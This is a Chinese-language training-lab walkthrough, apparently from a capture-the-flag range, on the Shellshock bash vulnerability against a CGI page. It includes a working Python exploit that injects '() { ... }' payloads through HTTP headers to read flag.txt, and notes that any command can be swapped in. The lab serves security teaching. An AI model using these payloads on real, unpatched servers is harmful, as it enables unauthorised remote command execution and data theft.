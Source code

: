 # bash 破壳漏洞

## 【实验原理】

​	Bash使用的环境变量是通过函数名称来调用的，导致漏洞出问题是以“(){”开头定义的环境变量在命令ENV中解析成函数后，Bash执行并未退出，而是继续解析并执行shell命令。导致出现命令执行，而其核心的原因在于在输入的过滤中没有严格限制边界，也没有做出合法化的参数判断。

## 【实验目的】

提高学员对bash命令的理解以及对bash的原理进行一定的认识。

## 【实验环境】

![](文档/1.png)

* 靶机：Ubuntu14.04 64位操作系统。
* IP地址：随机分配，已绑定端口80
* 客户机：kali  IP地址：随机分配

## 【实验工具】

Python，浏览器访问，漏洞POC进行命令执行

## 【实验步骤】

**步骤1：** 访问平台生成的url，对bash破壳漏洞进行一个初步的了解。

![](文档/2.png)

** 步骤2：** 点击靶场环境按钮，进入一个cgi页面

![](文档/3.png)

![](文档/4.png)



**步骤3：** 通过对bash破壳漏洞的进一步了解，从而进行构造攻击payload对靶场页面URL进行远程命令执行

编写exp：

```python
#coding=utf-8
import urllib, urllib2
import cookielib, socket
import cgi, re, os


def get_request(url):
    socket.setdefaulttimeout(5)
    i_headers = {"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
                 "User-Agent": "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.125 Safari/537.36",
                 "CustomHeader": "() { test;};echo; echo shellshock one;",
                 "CustomHeaderNew": "() { _;} >shellshockme[$($())] { cat flag.txt;}",
                 }

    try:
        req = urllib2.Request(url, headers=i_headers)
        response = urllib2.urlopen(req)
        print response.info()
        html = response.read()
        print html
    except:
        print "Error on request"

if __name__ == '__main__':
    url = "http://218.2.197.232:25294/cgi-bin/test.sh"
    get_request(url)

```

**注：**

1. 将exp中的url替换成自己靶机的url即可
2. exp中的`i_headers`字段将`{ cat flag.txt;}`命令替换成你需要的指令即可完成任意命令执行

**步骤4：** 通过对服务器进行命令执行操作，找出含有flag的页面，flag.txt

**步骤4：** 执行命令查看或下载该文件，找出文件中的flag

执行结果：

![](文档/result.png)

## **【实验总结】**

本次实验主要是模拟真实环境中bash破壳漏洞命令执行操作，提取有效信息。
